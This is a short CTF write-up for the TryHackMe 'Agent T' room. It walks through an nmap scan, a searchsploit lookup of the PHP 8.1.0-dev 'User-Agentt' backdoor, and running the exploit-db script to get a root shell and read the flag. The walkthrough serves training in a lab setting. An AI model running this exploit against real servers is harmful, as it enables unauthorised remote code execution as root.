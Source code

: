 ```yaml
---
weight: 3
title: "CTF writeup - TryHackMe"
date: 2022-09-03
lastmod: 2022-09-03T19:16:40+08:00
description: "Saturday night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit a built-in backdoor in a PHP cli server.
---
```

# TryHackMe: Agent T

{{< figure src="/agent_t/Untitled.png" >}}

# Scanning & Enumeration

## NMAP

```bash
└─$ nmap -A -T4 -F $IP
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-08-30 10:05 EDT
Nmap scan report for 10.10.144.112
Host is up (0.060s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

A quick Nmap scan reveals that this host only has 1 service running. Apparently a web server of some sort with an exposed administrator dashboard. The header response shows us that it uses **PHP 8.1.0-dev.**

## Searchsploit

Searching for this in searchsploit tells us that it has an exploit available, utilzing a built-in backdoor. That is pretty serious!

```bash

└─$ searchsploit PHP 8.1.0 dev

---

Exploit Title                                                                             |  Path

---

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                        | php/webapps/49933.py

---

Shellcodes: No Results
```

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
> 

# Gaining access

After running the python script and abusing the backdoor exploit, we immediately spawn a root shell. This makes it simple to retrieve the root flag.

```bash
┌──(kali㉿kali)-[~/tryhackme/flatline]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
[http://10.10.144.112](http://10.10.144.112/)

Interactive shell is opened on [http://10.10.144.112](http://10.10.144.112/)
Can't acces tty; job crontol turned off.
$ whoami
root
$ cat /flag.txt
~~flag{4127d0530abf16d6d23973e3df8dbecb}~~
```